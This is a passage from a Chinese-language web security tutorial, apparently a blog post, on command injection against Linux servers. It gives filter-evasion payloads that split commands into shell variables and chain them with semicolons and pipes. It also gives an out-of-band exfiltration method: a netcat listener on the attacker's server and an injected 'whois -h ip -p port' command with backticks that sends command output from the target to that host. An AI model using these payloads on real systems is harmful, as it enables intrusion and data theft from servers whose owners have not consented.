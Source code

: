 **<a class="reference-link" name="%E8%BF%9B%E5%85%A5linux"></a>进入linux**

**<a class="reference-link" name="2.1%20linux%E4%B8%8B%E7%9A%84%E7%AC%A6%E5%8F%B7%E5%92%8C%E9%80%BB%E8%BE%91%E8%BF%90%E7%AE%97%E7%AC%A6"></a>2.1 linux下的符号和逻辑运算符**

这个时候有好奇的观众朋友就要问了，那对方服务器是linux的话怎么办呢？<br>
道理也是相同的

```
a=who
b=ami
$a$b
```

[![](https://p1.ssl.qhimg.com/t018d5742c50b658807.png)](https://p1.ssl.qhimg.com/t018d5742c50b658807.png)

只不过windows的cmd下取变量值需要用两个%，linux下需要用$<br>
那么我们又可以怎么组合呢，接着来看<br>
Linux下用分号表示命令结束后执行后面的命令，无论前面的命令是否成功

```
ping www. ; whoami
echo tj ; whoami
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0171aed8cfeb8a2731.png)

符号|在linux中，可以连接命令，和win一样，也只会执行后面那条命令<br>
其他符号如|| 、&amp; 、&amp;&amp;和windows都是一样，不再过多赘述<br>
那么让我们根据以上两点进行一个结合

```
t=l; j=s; i=" -al"; $t$j$i
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014cb121d4a4d23d57.png)

**<a class="reference-link" name="2.2%20%E5%88%A9%E7%94%A8%E6%9C%AA%E8%A2%AB%E8%BF%87%E6%BB%A4%E7%9A%84%E5%91%BD%E4%BB%A4%EF%BC%8C%E4%B8%80%E4%B8%AA%E4%BE%8B%E5%AD%90%EF%BC%81"></a>2.2 利用未被过滤的命令，一个例子！**

哥哥们看图好了

```
自己服务器中：nc -lvvp 端口
payload发送给对方：whois -h ip -p 端口 `命令` //``为反引号
//下图以自身服务器的1234端口作演示，实际情况根据个人更改
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a17f6836d7442a3b.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01695ed371eb29d1b6.png)
